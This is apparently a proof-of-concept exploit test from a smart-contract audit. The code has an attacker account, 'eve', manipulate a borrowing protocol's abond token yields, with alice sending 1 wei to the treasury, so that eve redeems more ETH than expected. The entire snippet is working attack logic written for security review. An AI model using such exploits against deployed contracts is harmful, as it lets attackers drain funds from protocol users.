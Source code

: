 ```typescript

    await BorrowingContractA.connect(eve).depositTokens(
        100000,
        timeStamp,
        [1,
        100000,
        ethVolatility,1,
        eveDepositAmount],
        {value: (eveDepositAmount +  BigInt(nativeFee))})
    
    
    await BorrowingContractA.calculateCumulativeRate();
    await TokenA.mint(alice.getAddress(),8000000000);
    await TokenA.connect(alice).approve(await BorrowingContractA.getAddress(),await TokenA.balanceOf(alice.getAddress()));
    await TokenA.mint(eve.getAddress(),8000000000);
    await TokenA.connect(eve).approve(await BorrowingContractA.getAddress(),await TokenA.balanceOf(eve.getAddress()));
    const {odosData, odosSignData} = await calculateUpsideToSwap(
        (await treasuryA.getBorrowing(await alice.getAddress(), 1))[1],
        100000,
        1e18,
        ZeroAddress,
        await treasuryA.getAddress(),
        await BorrowingContractA.getAddress()
    )
    await BorrowingContractA.connect(alice).withDraw(
        await alice.getAddress(), 
        1,
        odosData,
        odosSignData,
        80010, // alice will have higher ethBacked
        timeStamp,
        {value: nativeFee});
    await BorrowingContractA.connect(eve).withDraw(
        await alice.getAddress(), 
        1,
        odosData,
        odosSignData,
        100000,
        timeStamp,
        {value: nativeFee});

    const [, , eveAbondAmount] = await abondTokenA.userStates(eve.address);
    const [, expectedRedeemedAmount] = await BorrowingContractA.getAbondYields(eve, eveAbondAmount);
    console.log("expectedRedeemedAmount: ", expectedRedeemedAmount);

    // eve persuaded alice to transfer just 1 wei from their account
    const abondAmount = 1n;
    await abondTokenA.connect(alice).approve(eve.address, abondAmount);
    await abondTokenA.connect(eve).transferFrom(alice.address, await treasuryA.getAddress(), abondAmount);

    await abondTokenA.connect(eve).approve(await BorrowingContractA.getAddress(), await abondTokenA.balanceOf(eve.address));
    const eveBalanceBefore = await ethers.provider.getBalance(eve.address);
    await BorrowingContractA.connect(eve).redeemYields(eve.address, eveAbondAmount);
    const eveBalanceAfter = await ethers.provider.getBalance(eve.address);
    const actualRedeemedAmount = eveBalanceAfter - eveBalanceBefore;
    console.log("actualRedeemedAmount: ", actualRedeemedAmount);
    expect(actualRedeemedAmount).to.greaterThan(expectedRedeemedAmount);
    
```